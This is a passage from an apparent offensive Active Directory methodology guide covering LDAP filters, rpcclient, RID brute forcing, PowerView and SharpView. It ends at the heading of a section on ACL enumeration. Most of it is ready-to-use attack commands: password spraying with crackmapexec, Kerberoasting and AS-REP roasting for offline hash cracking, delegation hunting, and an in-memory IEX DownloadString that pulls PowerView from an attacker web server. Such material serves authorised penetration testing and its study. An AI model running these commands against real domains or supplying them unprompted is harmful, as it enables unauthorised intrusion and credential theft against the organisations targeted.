







1. Active Directory LDAP
LDAP is a query protocol used by Active Directory. Every request against the domain controller begins with a bind that establishes an identity, and by default an authenticated domain user has read access to most of the tree without any additional privileges. The directory holds users, groups, computers, OUs, GPO links, certificate templates, delegation flags, and almost every other configuration primitive, which makes it the largest single source of information reachable from any credentialed host.
The bind mode determines what a query is allowed to see. Anonymous binds against a modern domain controller are constrained to the root DSE, but the response still lists the naming contexts, supported controls, and schema location, which is usually enough to structure the queries that follow. An authenticated bind removes the restriction. The search base and object class filter then decide the scope of the response, and choosing them carefully is what keeps results focused rather than overwhelming.
1.1 Naming Contexts
Every LDAP server exposes a set of naming contexts (also called root DSE entries) describing the partitions it hosts. Querying with an empty base and -s base returns the metadata needed to build subsequent searches:
ldapsearch -x -H ldap:// -s base namingcontexts Flags:
| Flag | Description |
|---|---|
-x | simple (anonymous) authentication |
-H | LDAP URI of the target DC |
-s base | search scope limited to the base DSE |
Look for defaultNamingContext, which becomes the -b value for every subsequent query.
1.2 Anonymous Enumeration
With the naming context in hand, unauthenticated searches probe what the DC exposes without credentials. The base is written as dc=domain,dc=tld, and object classes constrain the result set:
ldapsearch -x -b "dc=htb,dc=local" -h <IP> -p <port>Extract only user accounts by combining an objectClass filter with an attribute projection:
ldapsearch -x -b "dc=htb,dc=local" -h <IP> -p 389 '(ObjectClass=User)' sAMAccountName | grep sAMAccountName | awk '{print $2}'Look for service accounts by grepping for the Service Accounts OU string in the raw output:
ldapsearch -x -b "dc=htb,dc=local" -h <IP> -p 389 | grep -i -a 'Service Accounts'1.3 Authenticated Enumeration
Authenticated binds unlock the vast majority of AD attributes. Provide the bind DN with -D, the password with -w, and set the base to the domain naming context:
ldapsearch -H ldap://<dc-fqdn> -x -D '<user>@<domain.local>' -w '<password>' -b "DC=<domain>,DC=<tld>" "objectclass=user" sAMAccountName | grep sAMAccountName | awk -F":" '{print $2}'The same pattern extends to any object class, including group, computer, msDS-GroupManagedServiceAccount, and pKICertificateTemplate. The filter syntax follows RFC 4515 and is powerful enough to deserve its own subsection.
1.4 LDAP Search Filters
Filters are the second half of every LDAP search. The base tells the DC where to look, the filter tells it what to return. Choosing filters carefully separates a targeted query from one that dumps the whole tree.
The syntax comes from RFC 4515. Every filter is wrapped in parentheses, and Boolean operators sit in prefix position, meaning the operator character appears at the start of the group before its operands:
(<attribute>=<value>) # simple equality
(&(...)(...)) # AND, all sub-filters must match
(|(...)(...)) # OR, any sub-filter matches
(!(...)) # NOT, negates the enclosed filter1.4.1 Object Class Filters
Narrowing by objectClass or samAccountType is the fastest way to trim a result set to a single object type. samAccountType tends to be more precise for the built-in account categories because the value enumeration is closed:
(objectClass=user)
(objectClass=group)
(objectClass=computer)
(objectClass=organizationalUnit)
(objectClass=pKICertificateTemplate)
(samAccountType=805306368) # user account
(samAccountType=268435456) # security group
(samAccountType=805306369) # computer account1.4.2 Wildcards and Substrings
The * character matches any sequence of characters and can appear anywhere in the value:
(sAMAccountName=admin*) # names starting with admin
(sAMAccountName=*svc*) # names containing svc
(servicePrincipalName=*) # any account with any SPN set
(description=*password*) # dangerous but often productive1.4.3 Bitwise Filters
The userAccountControl attribute packs a set of account flags into a single integer, so equality matching does not work. The LDAP_MATCHING_RULE_BIT_AND extension (OID 1.2.840.113556.1.4.803) tests specific bits inside the value:
(userAccountControl:1.2.840.113556.1.4.803:=2) # ACCOUNTDISABLE
(userAccountControl:1.2.840.113556.1.4.803:=32) # PASSWD_NOTREQD
(userAccountControl:1.2.840.113556.1.4.803:=65536) # DONT_EXPIRE_PASSWORD
(userAccountControl:1.2.840.113556.1.4.803:=524288) # TRUSTED_FOR_DELEGATION (unconstrained)
(userAccountControl:1.2.840.113556.1.4.803:=4194304) # DONT_REQ_PREAUTH (AS-REP roastable)1.4.4 Recursive Group Membership
The LDAP_MATCHING_RULE_IN_CHAIN extension (OID 1.2.840.113556.1.4.1941) walks nested group memberships automatically. One query returns the transitive membership of a group instead of resolving each nested subgroup by hand:
(memberOf:1.2.840.113556.1.4.1941:=CN=Domain Admins,CN=Users,DC=<domain>,DC=<tld>)1.4.5 Practical Combined Filters
The filters below cover the questions asked on almost every internal engagement.
Kerberoastable users (user accounts with any SPN set):
(&(samAccountType=805306368)(servicePrincipalName=*))AS-REP roastable users (pre-auth disabled):
(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))Computers with unconstrained delegation:
(&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288))Accounts flagged for constrained delegation (msDS-AllowedToDelegateTo is populated):
(msDS-AllowedToDelegateTo=*)Resource-Based Constrained Delegation targets (msDS-AllowedToActOnBehalfOfOtherIdentity is populated):
(msDS-AllowedToActOnBehalfOfOtherIdentity=*)Users where the password never expires:
(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=65536))Enabled users only, useful when building a spray target list:
(&(samAccountType=805306368)(!(userAccountControl:1.2.840.113556.1.4.803:=2)))Every member of a group, including nested membership:
(memberOf:1.2.840.113556.1.4.1941:=CN=<group>,CN=Users,DC=<domain>,DC=<tld>)1.4.6 Applying Filters with ldapsearch
Wrap the filter in single quotes so the shell does not interpret wildcards or parentheses. Attribute names after the filter restrict which fields the DC returns:
ldapsearch -x -b "dc=<domain>,dc=<tld>" -h <dc-ip> \
'(&(samAccountType=805306368)(servicePrincipalName=*))' \
sAMAccountName servicePrincipalNameAuthenticated equivalent, pulling every AS-REP roastable account:
ldapsearch -H ldap://<dc-fqdn> -x -D '<user>@<domain.local>' -w '<password>' \
-b "DC=<domain>,DC=<tld>" \
'(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))' \
sAMAccountName1.4.7 Ambiguous Name Resolution and PrimaryGroupID
Two AD-specific LDAP behaviors worth remembering. Ambiguous Name Resolution (ANR) matches a search value against multiple attributes at once (givenName, sn, displayName, sAMAccountName, proxyAddresses, and a handful of others), which is faster than composing an OR by hand:
ldapsearch -x -b "dc=<domain>,dc=<tld>" -h <dc-ip> '(anr=admin)' sAMAccountName displayNamePrimaryGroupID is where an account's primary group RID lives. It does not show up in memberOf, so the standard membership query misses it. To resolve the primary group, translate the RID into a group SID:
# Pull the primary group RID from the account
ldapsearch -x -b "dc=<domain>,dc=<tld>" -h <dc-ip> '(sAMAccountName=<user>)' primaryGroupID
# 513 = Domain Users (default), 512 = Domain Admins, 515 = Domain Computers, 516 = Domain Controllers1.4.8 windapsearch
windapsearch is a Python wrapper around common LDAP enumeration filters. It hides the RFC 4515 syntax behind flags for the common questions (users, groups, computers, GPOs, trusts, spns) and outputs cleanly:
windapsearch -d <domain.local> --dc-ip <dc-ip> -u <user> -p '<password>' --da # Domain Admins
windapsearch -d <domain.local> --dc-ip <dc-ip> -u <user> -p '<password>' --spns # Service Principal Names
windapsearch -d <domain.local> --dc-ip <dc-ip> -u <user> -p '<password>' --unconstrained-delegation
windapsearch -d <domain.local> --dc-ip <dc-ip> -u <user> -p '<password>' --gpos # every GPO1.5 rpcclient over MSRPC
rpcclient talks Windows MSRPC to a DC over SMB. It sometimes returns information LDAP won't and is invaluable when LDAP is filtered. Anonymous and authenticated modes are both supported:
rpcclient -U="" -N <dc-ip>
rpcclient -U="" <dc-ip> Once connected, a handful of commands cover most enumeration needs:
help # list all commands
srvinfo # basic server info
enumdomusers # every domain user
queryuser <user> # attributes for one user
getuserdompwinfo <rid> # per-user password policy
lookupnames <user> # username → SID
enumdomains # domains the DC knows
enumdomaingroups # every domain group
querygroup <rid> # group members
querydispinfo # display attributes for all users
netshareenum # SMB shares
enumprivs # user privileges1.6 RID Brute Force
Relative Identifiers (RIDs) are the tail of a SID and are allocated sequentially. Even when username enumeration is blocked, querying RIDs one-by-one via SAMR often returns the account name. NetExec (nxc) automates this against SMB:
crackmapexec smb -u "" -p "" --rid-brute Once a user list is built, spray a candidate password across every account. Lockout policies (from getuserdompwinfo) tell you how aggressive you can be:
crackmapexec smb -u users.txt -p "password" Methodology
- Query the root DSE for
namingcontextsto learn the domain DN:ldapsearch -x -H ldap://<DC> -s base namingcontexts - Attempt an anonymous bind and record what returns:
ldapsearch -x -b "dc=<domain>,dc=<tld>" -h <dc-ip> -p 389 - If anonymous fails, rebind with a domain account:
ldapsearch -H ldap://<dc-fqdn> -x -D '<user>@<domain.local>' -w '<password>' -b "DC=<domain>,DC=<tld>" "objectclass=user" - Enumerate
objectClass=user,group,computer, and any custom classes discovered. - Extract
sAMAccountName,servicePrincipalName,memberOf,userAccountControl, andmsDS-*attributes. - Enumerate Kerberoastable accounts (user accounts with any SPN set):
ldapsearch -x -b "dc=<domain>,dc=<tld>" -h <dc-ip> \ '(&(samAccountType=805306368)(servicePrincipalName=*))' \ sAMAccountName servicePrincipalName - List accounts with pre-authentication disabled (AS-REP roastable):
ldapsearch -x -b "dc=<domain>,dc=<tld>" -h <dc-ip> \ '(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))' \ sAMAccountName - Find computers with unconstrained delegation:
ldapsearch -x -b "dc=<domain>,dc=<tld>" -h <dc-ip> \ '(&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288))' \ sAMAccountName dNSHostName - Find accounts configured for constrained delegation (
msDS-AllowedToDelegateTopopulated):ldapsearch -x -b "dc=<domain>,dc=<tld>" -h <dc-ip> \ '(msDS-AllowedToDelegateTo=*)' \ sAMAccountName msDS-AllowedToDelegateTo - Identify Resource-Based Constrained Delegation targets (
msDS-AllowedToActOnBehalfOfOtherIdentitypopulated):ldapsearch -x -b "dc=<domain>,dc=<tld>" -h <dc-ip> \ '(msDS-AllowedToActOnBehalfOfOtherIdentity=*)' \ sAMAccountName msDS-AllowedToActOnBehalfOfOtherIdentity - Flag accounts where password never expires (long-lived credential candidates):
ldapsearch -x -b "dc=<domain>,dc=<tld>" -h <dc-ip> \ '(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=65536))' \ sAMAccountName - Walk transitive Domain Admins membership with
LDAP_MATCHING_RULE_IN_CHAIN:ldapsearch -x -b "dc=<domain>,dc=<tld>" -h <dc-ip> \ '(memberOf:1.2.840.113556.1.4.1941:=CN=Domain Admins,CN=Users,DC=<domain>,DC=<tld>)' \ sAMAccountName - Filter to enabled users only before feeding any list into a spray:
ldapsearch -x -b "dc=<domain>,dc=<tld>" -h <dc-ip> \ '(&(samAccountType=805306368)(!(userAccountControl:1.2.840.113556.1.4.803:=2)))' \ sAMAccountName - Fall back to
rpcclientover MSRPC when LDAP is filtered:rpcclient -U="" -N <dc-ip> rpcclient $> enumdomusers rpcclient $> querydispinfo - RID-brute via SAMR when username enumeration is blocked:
crackmapexec smb <dc> -u "" -p "" --rid-brute - Feed the resulting user list into a password spray, respecting lockout:
crackmapexec smb <dc> -u users.txt -p ''
2. Active Directory PowerView
PowerView is the PowerShell recon module bundled with PowerSploit. It has been formally deprecated for a few years now, but nothing in the wider tooling stack covers the same ground as cleanly: LDAP-backed queries, ACL analysis, and delegation checks in one script that runs anywhere a domain user has a shell. Reading its cmdlets is also one of the fastest ways to internalise what raw LDAP filters look like under the hood.
Two properties keep it useful on real engagements. Loaded through IEX, it never touches disk. And every cmdlet returns objects rather than strings, which means results feed straight into Select, Where, and Export-Csv without any parsing gymnastics.

2.1 Importing PowerView
Import the module locally after transferring it to disk:
Import-Module powerview.ps1Or load it entirely in memory from an attacker-controlled web server, no file touches disk:
IEX (New-Object Net.WebClient).DownloadString('http://<attacker>/PowerView.ps1')2.2 Domain and DC Information
PowerView's Get-Net* cmdlets wrap LDAP queries the AD-RSAT module also exposes, but they run under any domain user's context and do not require RSAT to be installed. Start with the DC and the current domain:
Get-NetDomainController
Get-NetDomainEnumerate active logon sessions and current interactive users on the DC or a specific workstation:
Get-NetLoggedon
Get-NetSessionMethodology
- Snapshot the current domain, forest, and every DC in one pass:
Get-NetDomain Get-NetForest Get-NetDomainController - Enumerate active logon sessions and interactive users on a target host:
Get-NetLoggedon -ComputerName <target> Get-NetSession -ComputerName <target>
2.2.1 More Domain and DC Cmdlets
Beyond the basics, PowerView surfaces the domain SID, current password policy, and every DC in the domain in one line each:
Get-DomainSID # Just the domain SID
Get-DomainPolicy # Password policy, lockout thresholds, ticket lifetimes
Get-DomainController # Every DC with hostname, IP, and rolesTranslate a SID into a name (or a name into a SID) when a query returns raw SIDs:
ConvertFrom-SID S-1-5-21-...-500 # SID → account name
Get-DomainUser -Identity administrator | Select-Object objectsidEnumerate DNS zones and records, often the fastest way to inventory hosts by name rather than by IP:
Get-DomainDNSZone
Get-DomainDNSRecord -ZoneName '<domain.local>' | Select-Object name, recordtype, dataFile servers are a common target because they carry credential material in configs. PowerView flags any computer with a common file-server role:
Get-DomainFileServerMethodology
- Pull the domain SID, password policy, and DC list in three commands:
Get-DomainSID Get-DomainPolicy Get-DomainController - Translate SIDs and enumerate DNS zones for a name-based host inventory:
ConvertFrom-SID S-1-5-21-...-500 Get-DomainDNSZone Get-DomainDNSRecord -ZoneName '<domain.local>' - List file servers, common credential-material targets:
Get-DomainFileServer
2.2.3 Foreign Principals and ACL Hunting
Find-ForeignGroup and Find-ForeignUser surface principals from a trusted domain that hold membership in the current domain, the corresponding foreignSecurityPrincipal objects and every group that lists them:
Find-ForeignGroup # Groups in the current domain with members from a trusted one
Find-ForeignUser # Users from a trusted domain with membership hereFind-InterestingDomainAcl is PowerView's shortcut for hunting abusable ACEs domain-wide. Filters out inherited noise and returns only ACEs likely to escalate:
Find-InterestingDomainAcl -ResolveGUIDs
Find-InterestingDomainAcl -ResolveGUIDs | Where-Object { $_.IdentityReferenceName -eq '<controlled-user>' }Methodology
- Surface principals from a trusted domain holding rights in the current one:
Find-ForeignGroup Find-ForeignUser - Hunt abusable ACEs domain-wide, filtered to the interesting rights:
Find-InterestingDomainAcl -ResolveGUIDs Find-InterestingDomainAcl -ResolveGUIDs | Where-Object { $_.IdentityReferenceName -eq '<controlled-user>' }
2.2.4 SharpView
SharpView is a C# port of PowerView. Same cmdlet names, same outputs, but ships as a single .NET binary that runs under execute-assembly from a C2 (Sliver, Cobalt Strike, Havoc) without dropping PowerShell:
execute-assembly SharpView.exe Get-DomainUser -Identity <user>
execute-assembly SharpView.exe Get-DomainComputer -UnconstrainedMethodology
- Run PowerView cmdlets through
execute-assemblyfrom a C2 without dropping PowerShell:execute-assembly SharpView.exe Get-DomainUser -Identity <user> execute-assembly SharpView.exe Get-DomainComputer -Unconstrained
2.3 Users, Groups, and Computers
Pull all AD users, users of a specific group, and users matching a filter. Select trims the object to just the fields you want:
Get-ADUser -Filter *
Get-ADUser -Identity -Server -Properties * | Format-Table Name,SamAccountName -A
Get-ADUser -Filter * -SearchBase "CN=Users,DC=victim,DC=COM" Filter for users created after a specific date, useful for detecting recent onboarding you can spray against:
Get-ADUser -Filter {((Enabled -eq $True) -and (Created -gt "Monday, April 10, 2023 00:00:00 AM"))} -Property Created, LastLogonDate | Select SamAccountName, Name, Created | Sort-Object CreatedEnumerate every computer along with the owner attribute:
Get-ADComputer -filter * -properties whencreated | Select Name,@{n="Owner";e={(Get-acl "ad:\$($_.distinguishedname)").owner}},whencreatedList computers pulled through PowerView instead of the AD module:
Get-NetComputer | select nameMethodology
- Enumerate every user, or filter by group membership or creation date:
Get-ADUser -Filter * Get-ADUser -Filter * -SearchBase "CN=Users,DC=<domain>,DC=<tld>" Get-ADUser -Filter {((Enabled -eq $True) -and (Created -gt "Monday, April 10, 2023 00:00:00 AM"))} -Property Created, LastLogonDate | Select SamAccountName, Name, Created - Enumerate computers with the owner attribute for provenance:
Get-ADComputer -filter * -properties whencreated | Select Name,@{n="Owner";e={(Get-acl "ad:\$($_.distinguishedname)").owner}},whencreated Get-NetComputer | select name
2.4 Session Hunting and Local Admin Discovery
Session hunting is one of the highest-value PowerView primitives. It maps live tokens for privileged accounts to specific hosts, which turns lateral movement into a targeted move rather than a guess. Local admin discovery does the reverse and identifies every host where a given account can already act as admin.
Find where a specific user has an active session, or where any member of a group is currently logged in:
# Every host with an active session for one named user
Find-DomainUserLocation -UserIdentity <target-user>
# Every host with an active session for any member of a group
Find-DomainUserLocation -UserGroupIdentity 'Domain Admins'Identify every host where the current account already has local admin rights:
# Sweeps every reachable host and reports which ones accept my credential as local admin
Find-LocalAdminAccessDirect session and logon queries against a single host:
# Network sessions (SMB) on the target: matches users with mapped drives or shares
Get-NetSession -ComputerName <target>
# Interactive logon users on the target: matches console/RDP sessions
Get-NetLoggedon -ComputerName <target>Methodology
- Locate every host with a live session for a specific user or group:
Find-DomainUserLocation -UserIdentity <target-user> Find-DomainUserLocation -UserGroupIdentity 'Domain Admins' - Identify every host where the current account already holds local admin rights:
Find-LocalAdminAccess - Direct session and logon queries against a single host:
Get-NetSession -ComputerName <target> Get-NetLoggedon -ComputerName <target>
2.5 SPN and Kerberoasting Enumeration
Any authenticated user can request a service ticket for any SPN. The ticket is encrypted with the service account's long-term key, so weak service passwords crack offline. PowerView's -SPN filter returns accounts with any servicePrincipalName populated:
# List Kerberoastable users (any user with an SPN set)
Get-DomainUser -SPN | Select-Object samaccountname, serviceprincipalnameRequest tickets straight from PowerView, formatted for Hashcat:
# Request TGS for every Kerberoastable account and write hashcat-ready output to disk
Get-DomainUser -SPN | Get-DomainSPNTicket -OutputFormat Hashcat | Export-Csv .\kerb.csv -NoTypeInformationThe older PowerSploit helper that wraps the same flow:
# Older one-shot wrapper: same output shape, no separate enumeration step
Invoke-Kerberoast -OutputFormat Hashcat | Export-Csv .\kerb.csv -NoTypeInformationMethodology
- List Kerberoastable accounts (any user with an SPN set):
Get-DomainUser -SPN | Select-Object samaccountname, serviceprincipalname - Roast every Kerberoastable account and write hashcat-ready output:
Get-DomainUser -SPN | Get-DomainSPNTicket -OutputFormat Hashcat | Export-Csv .\kerb.csv -NoTypeInformation Invoke-Kerberoast -OutputFormat Hashcat | Export-Csv .\kerb.csv -NoTypeInformation
2.6 AS-REP Roasting Enumeration
Accounts with pre-authentication disabled leak an AS-REP encrypted with the user's long-term key to any caller. That AS-REP cracks offline. PowerView's -PreauthNotRequired filter narrows to the exact set:
# List every account with DONT_REQ_PREAUTH set (bit 4194304 of userAccountControl)
Get-DomainUser -PreauthNotRequired -Properties samaccountname, distinguishedname, useraccountcontrolPowerView does not fetch AS-REPs directly, so pair the list with Impacket's GetNPUsers.py or Rubeus for the actual capture:
# Save just the sAMAccountName column to feed GetNPUsers.py or Rubeus asreproast
Get-DomainUser -PreauthNotRequired | Select-Object -ExpandProperty samaccountname | Out-File .\asrep_users.txtMethodology
- List accounts with DONT_REQ_PREAUTH set (bit 4194304):
Get-DomainUser -PreauthNotRequired -Properties samaccountname, distinguishedname, useraccountcontrol - Export the user list for GetNPUsers.py or Rubeus asreproast:
Get-DomainUser -PreauthNotRequired | Select-Object -ExpandProperty samaccountname | Out-File .\asrep_users.txt
2.7 Delegation Enumeration
Delegation misconfigurations are among the fastest privilege escalations on modern domains. PowerView exposes a flag for each of the three variants.
Unconstrained delegation on computers (excluding domain controllers, which have it by default):
# Unconstrained delegation: computer caches every TGT that authenticates to it.
# TRUSTED_FOR_DELEGATION bit (524288). Coerce a DC to authenticate here and dump its TGT.
Get-DomainComputer -Unconstrained -Properties samaccountname, dnshostname, operatingsystemConstrained delegation (msDS-AllowedToDelegateTo populated):
# Constrained delegation on user (service) accounts: S4U2Proxy to the listed SPNs.
Get-DomainUser -TrustedToAuth -Properties samaccountname, msds-allowedtodelegateto
# Constrained delegation on computer accounts: same primitive, computer identity.
Get-DomainComputer -TrustedToAuth -Properties samaccountname, msds-allowedtodelegatetoResource-Based Constrained Delegation (msDS-AllowedToActOnBehalfOfOtherIdentity populated):
# Resource-based constrained delegation: the TARGET names which principals can act on its behalf.
# If I control a principal listed here, I can impersonate any user to this computer.
Get-DomainComputer -Properties samaccountname, msds-allowedtoactonbehalfofotheridentity |
Where-Object { $_.'msds-allowedtoactonbehalfofotheridentity' }Methodology
- Enumerate unconstrained delegation on computers (TRUSTED_FOR_DELEGATION):
Get-DomainComputer -Unconstrained -Properties samaccountname, dnshostname, operatingsystem - Enumerate constrained delegation on user and computer accounts:
Get-DomainUser -TrustedToAuth -Properties samaccountname, msds-allowedtodelegateto Get-DomainComputer -TrustedToAuth -Properties samaccountname, msds-allowedtodelegateto - Enumerate Resource-Based Constrained Delegation targets:
Get-DomainComputer -Properties samaccountname, msds-allowedtoactonbehalfofotheridentity | Where-Object { $_.'msds-allowedtoactonbehalfofotheridentity' }
2.8 ACL Enumeration
